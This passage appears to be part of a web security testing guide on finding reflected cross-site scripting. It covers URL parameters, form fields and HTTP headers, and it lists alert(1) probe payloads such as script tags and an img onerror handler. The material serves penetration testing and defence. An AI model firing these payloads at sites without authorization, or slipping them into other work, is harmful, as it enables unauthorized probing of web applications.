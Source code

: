 Test user input being reflected in the page through URL parameters:

```javascript
# Identify reflection points in URL parameters
site.com/page?search=TEST     # Search parameters
site.com/page?name=TEST       # User input fields
site.com/page?id=TEST         # ID parameters

# Test basic XSS payload in each parameter
site.com/page?search=<script>alert(1)</script>
site.com/page?name="><script>alert(1)</script>
site.com/page?id=</script><script>alert(1)</script>

# Check if payload executes or gets reflected
# - If script executes: Direct XSS possible
# - If script is visible: HTML encoding might be in place
# - If script disappears: Filtering is active
```

#### Form Input Tests

Test all input fields in forms for XSS:

```javascript
# Identify form fields
<input type="text">           # Text inputs
<input type="search">         # Search boxes
<textarea>                    # Text areas

# Test each field with detection payloads
"><img src=x onerror=alert(1)>    # Tests quote escape
'><img src=x onerror=alert(1)>    # Tests single quote escape
javascript:alert(1)                # Tests href attributes

# Step 3: Observe the response
# - Check page source for payload reflection
# - Check if input is encoded
# - Check browser console for errors
```

#### HTTP Header Tests

Test headers that might be reflected in the response:

```javascript
# Test common reflected headers
User-Agent: <script>alert(1)</script>
Referer: <script>alert(1)</script>
Cookie: <script>alert(1)</script>

# Test custom headers
X-Forwarded-For: <script>alert(1)</script>
X-Forwarded-Host: <script>alert(1)</script>

# Check response headers and body
# - Look for header values in page source
# - Check for reflections in error messages
```
